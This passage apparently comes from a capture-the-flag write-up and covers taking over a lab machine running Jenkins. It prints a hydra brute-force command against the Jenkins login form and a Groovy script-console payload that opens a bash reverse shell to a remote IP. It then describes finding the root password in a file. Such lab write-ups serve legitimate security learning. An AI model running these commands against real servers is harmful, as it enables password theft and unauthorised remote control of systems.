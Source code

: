 #### Jenkins Brute-Force

I opted to brute force Jenkins login with `hydra`. Hydra has support for login forms using the `http-post-form` option. In order for this to work, the headers for a login attempt need to be passed to Hydra. By sending a normal login attempt and checking the headers, we can determine what needs to be filled in. Then, we can run the following `hydra` command to brute-force the login. 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/j_acegi_security_check:j_username=admin&j_password=admin&from=%2F&Submit=Sign+in:Invalid username or password.`

After running the command, `hydra` successfully reveals the Jenkins login password.

#### Jenkins Exploitation

Once we've logged in to Jenkins, we can use the script console that is built-in to get a root shell. By navigating to the Admin panel and loading the script console, we can provide a specific command to get a simple TCP reverse shell running.

`r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.54.151/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()`

This gives us the Jenkins user, which we can use to poke around the file system a bit more. 

#### Root Access

Looking in `/opt` again, we find the password for the root user in another text file. SSH'ing into this user gives us the `/root` directory access, which contains the root flag text file.

# Conclusion

This was a really fun challenge, and definitely required me to flex my brain a lot. I picked up a lot of new tricks to use when evaluating web services, and look forward to putting them to good use.